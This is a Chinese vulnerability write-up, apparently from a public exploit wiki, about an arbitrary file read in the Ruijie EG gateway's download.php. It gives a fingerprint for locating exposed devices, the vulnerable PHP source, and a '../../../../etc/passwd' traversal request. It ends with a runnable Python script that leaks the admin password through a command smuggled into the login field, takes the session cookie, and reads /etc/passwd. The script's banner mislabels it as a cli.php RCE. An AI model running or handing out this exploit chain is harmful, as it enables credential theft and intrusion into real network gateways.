

# 锐捷 EG易网关 download.php 任意文件读取漏洞

## 漏洞描述

锐捷EG易网关 download.php 存在后台任意文件读取漏洞，导致可以读取服务器任意文件

## 漏洞影响

```
锐捷EG易网关
```

## 网络测绘

```
app="Ruijie-EG易网关"
```

## 漏洞复现

首先登录到后台中(可以组合 锐捷EG易网关 管理员账号密码泄露漏洞)

漏洞文件 download.php

```php
<?php
/**
 * 文件下载
 */
define('IN', true);     //定位该文件是入口文件
define('DS', DIRECTORY_SEPARATOR);
define('AROOT', dirname(__FILE__) . DS);
include_once(AROOT . 'mvc' . DS . 'controller' . DS . 'core.controller.php');

class defaultController extends coreController {

    /**
     * 应许下载的文件列表，不在该列表的文件一律不能下载，列表使用正则表达式
     * @var array
     */
    private $allow = array(
        "/^\/data\/.*$/",
        "/^\/mnt\/sata0\/webmail\/.*$/",
        "/^\/mnt\/sata0\/tech.+\.tar\.gz$$/",
        "/^\/mnt\/sata0\/mail\/.*$/",
        "/^\/mnt\/sata0\/audit_export\/.*$/",
        "/^\/tmp\/sslvpn\/export\/.*$/",
        "/^\/mnt\/sata0\/web\/nginx\/html\/sslvpn_pi\/.*$/",
        "/^\/tmp\/.ca_web\/.*$/",
        "/^\/mnt\/sata0\/sslvpn\/.*$/",
        "/^\/tmp\/html\/utlog.*$/",
    );
    private $error;     //错误描述

    function __construct() {
        // 载入默认的
        parent::__construct();
    }

    /**
     * 文件下载处理
     */
    public function indexAction() {
        $filepath = v("file");

        $fileinfo = pathinfo($filepath);
        $filename = iconv("UTF-8", "GB2312", $fileinfo["filename"] . (isset($fileinfo["extension"]) ? "." . $fileinfo["extension"] : ""));
        //只能读取下载GB2312文件不然会有乱码
        $filepointer = $this->_checkfile(iconv("UTF-8", "GB2312",$filepath));
        if ($filepointer !== false) {
            if (headers_sent()) {
                $this->error = "无法下载文件，已经输出其他请求头！";
            } else {
                header("Pragma: public");
                header("Expires: 0");
                header("Cache-Control: must-revalidate, post-check=0, pre-check=0");
                header("Cache-Control: private", false);
                header("Content-Type: {$this->_getMimeType($filename)}");
                header("Content-Disposition: attachment; filename=\"{$filename}\";");
                header("Content-Transfer-Encoding: binary");
                header("Content-Length: {$this->_getFileSize($filepointer)}");

                @ob_clean();

                rewind($filepointer);
                fpassthru($filepointer);
                exit();
            }
        }
        if ($this->error) {   //有错误产生
            ?>
            <!DOCTYPE html>
            <html>
                <head>
                    <title>文件下载失败</title>
                    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
                    <script type="text/javascript">
                        alert("<?php echo $this->error; ?>");
                    </script>
                </script>
            </head>
            <body></body>
            </html>
            <?php
        }
    }

    /**
     * 读取文本文件内容，支持ajax请求
     */
    public function read_txtAction() {
        $filename = v("file");
        if (!file_exists($filename)) {
            $data["status"] = 2;
            $data["msg"] = $filename . "不存在";
            json_echo($data);
            exit();
        } else {
            $fileContent = file_get_contents($filename);
            $data = array("status" => true, "data" => $fileContent);
            json_echo($data);
        }
    }

    /**
     * 文件检查
     */
    private function _checkfile($filename) {
        if ($filename == false) {
            $this->error = "请指定要下载的文件！";
            return FALSE;
        }
        $isallow = false;
        foreach ($this->allow as $pattern) {
            if (preg_match($pattern, $filename)) {
                $isallow = true;
                break;
            }
        }
        if (!$isallow) {
            $this->error = "该文件不允许下载！";
            return FALSE;
        }
        if (!is_file($filename)) {
            $this->error = "该文件不存在！";
            return FALSE;
        } else if (!is_readable($filename)) {
            //if (system("chmod +r " . escapeshellarg($filename))) {
                $this->error = "无法下载该文件，没有权限！";
                return FALSE;
            //}
        }
        return fopen($filename, "rb");
    }

    /**
     * 获取文件mime类型
     * @param string $fileName 文件名
     * @return string
     */
    private function _getMimeType($fileName) {
        $charset = v("charset");
        switch (pathinfo($fileName, PATHINFO_EXTENSION)) {
            case "pdf": return "application/pdf";
            case "exe": return "application/octet-stream";
            case "zip": return "application/zip";
            case "doc": return "application/msword";
            case "xls": return "application/vnd.ms-excel";
            case "ppt": return "application/vnd.ms-powerpoint";
            case "gif": return "image/gif";
            case "png": return "image/png";
            case "jpeg":
            case "jpg": return "image/jpg";
            case "htm": return "text/html;charset=gbk";
            case "html": if(!$charset) {
                            return "text/html;charset=gbk";
                        }else {
                            return "text/html;charset=UTF-8";
                        }
            default: return "application/force-download";
        }
    }

    /**
     * 获取文件大小
     * @return int
     */
    private function _getFileSize($filePointer) {
        $stat = fstat($filePointer);
        return $stat['size'];
    }

}

include_once AROOT.'init.php';    //mvc初始化入口，放在底部
```

关键代码为

```php
/**
     * 读取文本文件内容，支持ajax请求
     */
    public function read_txtAction() {
        $filename = v("file");
        if (!file_exists($filename)) {
            $data["status"] = 2;
            $data["msg"] = $filename . "不存在";
            json_echo($data);
            exit();
        } else {
            $fileContent = file_get_contents($filename);
            $data = array("status" => true, "data" => $fileContent);
            json_echo($data);
        }
    }
```

直接从Get请求中提取 file参数读取文件，可以使用 **../** 跳转目录

验证POC

```plain
/download.php?a=read_txt&file=../../../../etc/passwd
```


## 漏洞POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import base64
import requests
import random
import re
import json
import sys

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 锐捷EG网关 cli.php RCE                                      \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/login.php"
    headers = {
                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
                "Content-Type": "application/x-www-form-urlencoded"
    }
    data = 'username=admin&password=admin?show+webmaster+user'
    try:
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=10)
        print("\033[36m[o] 正在执行 show webmaster user \033[0m".format(target_url))
        if "data" in response.text and response.status_code == 200:
            password = re.findall(r'admin (.*?)"', response.text)[0]
            print("\033[36m[o] 成功获取, 账号密码为:  admin   {} \033[0m".format(password))
            POC_2(target_url, password)
    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)

def POC_2(target_url, password):
    vuln_url = target_url + "/login.php"
    headers = {
                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
                "Content-Type": "application/x-www-form-urlencoded"
    }
    data = 'username=admin&password={}'.format(password)
    try:
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=10)
        print("\033[36m[o] 正在登录..... \033[0m".format(target_url))
        if "status" in response.text and "1" in response.text and response.status_code == 200:
            ruijie_cookie = "RUIJIEID=" + re.findall(r"'Set-Cookie': 'RUIJIEID=(.*?);", str(response.headers))[0] + ";user=admin;"
            print("\033[36m[o] 成功获取管理员Cookie: {} \033[0m".format(ruijie_cookie))
            POC_3(target_url, ruijie_cookie)

    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)

def POC_3(target_url, ruijie_cookie):
    vuln_url = target_url + "/download.php?a=read_txt&file=../../../../etc/passwd"
    headers = {
                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
                "Content-Type": "application/x-www-form-urlencoded",
                "Cookie": "{}".format(ruijie_cookie)
    }
    try:
        response = requests.post(url=vuln_url, headers=headers, verify=False, timeout=10)
        print("\033[36m[o] 正在读取 /etc/passwd..... \033[0m".format(target_url))
        if "root:" in response.text and response.status_code == 200:
            print("\033[36m[o] 成功读取 /etc/passwd \n[o] 响应为:{} \033[0m".format(response.text))

    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    POC_1(target_url)
```

